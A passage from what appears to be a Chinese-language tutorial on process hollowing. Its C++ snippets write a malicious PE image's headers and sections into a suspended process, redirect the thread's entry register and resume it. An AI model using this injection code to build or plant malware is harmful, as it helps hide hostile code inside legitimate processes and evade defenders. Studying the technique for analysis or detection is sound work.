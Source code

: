 - **步骤 5: 写入恶意 PE 镜像 (`WriteProcessMemory`)**
    
    1. 首先，将恶意 PE 镜像的头部 (从文件开始到所有节头结束) 写入目标进程新分配内存的起始位置。头部大小由 `OptionalHeader.SizeOfHeaders` 决定。
        
        C++
        
        ```
        if (!WriteProcessMemory(
            target_pi->hProcess,
            pHollowAddress, // 注意：这里使用 VirtualAllocEx 返回的实际分配地址
            pMaliciousImage,            // 指向当前进程中恶意PE镜像的指针
            pNTHeaders->OptionalHeader.SizeOfHeaders, // 要写入的PE头部大小
            NULL
        )) {
            // cout<< "[!] Writting Headers failed. Error: " << GetLastError() << endl;
            // TerminateProcess(target_pi->hProcess, 0); return 1;
        }
        ```
        
    2. 然后，遍历恶意 PE 镜像的节表，将每个节的原始数据 (`PointerToRawData`, `SizeOfRawData`) 写入到目标进程中对应节的虚拟地址 (`VirtualAddress`) 处。
        
        C++
        
        ```
        for (int i = 0; i < pNTHeaders->FileHeader.NumberOfSections; i++) {
            PIMAGE_SECTION_HEADER pSectionHeader = (PIMAGE_SECTION_HEADER)((LPBYTE)pMaliciousImage +
                pDOSHeader->e_lfanew + sizeof(IMAGE_NT_HEADERS) + (i * sizeof(IMAGE_SECTION_HEADER)));
        
            if (!WriteProcessMemory(
                target_pi->hProcess,
                (PVOID)((LPBYTE)pHollowAddress + pSectionHeader->VirtualAddress), // 目标节区地址
                (PVOID)((LPBYTE)pMaliciousImage + pSectionHeader->PointerToRawData), // 源节区数据
                pSectionHeader->SizeOfRawData, // 节区大小
                NULL
            )) { /* 错误处理 */ }
        }
        ```
        
- **步骤 6: 设置线程上下文并恢复执行**
    
    1. 修改目标进程主线程的上下文 (`CONTEXT` 结构)，将其指令指针 (EAX for 32-bit, RIP for 64-bit) 设置为恶意 PE 镜像的入口点 (`OptionalHeader.AddressOfEntryPoint` 加上实际加载基址 `pHollowAddress`)。
        
        C++
        
        ```
        // c 已在步骤3获取并可能被修改，如果需要重新获取或确保其最新状态
        // GetThreadContext(target_pi->hThread, &c); // 重新获取可能更安全
        // 32位下修改 Eax, 64位下修改 Rip
        c.Eax = (DWORD)((LPBYTE)pHollowAddress + pNTHeaders->OptionalHeader.AddressOfEntryPoint); // 32位示例
        // c.ContextFlags 必须包含 CONTEXT_CONTROL 或 CONTEXT_INTEGER
        if (!SetThreadContext(target_pi->hThread, &c)) { /* 错误处理 */ }
        ```
        
    2. 使用 `ResumeThread` 恢复目标进程主线程的执行，此时它将从恶意代码的入口点开始运行。
        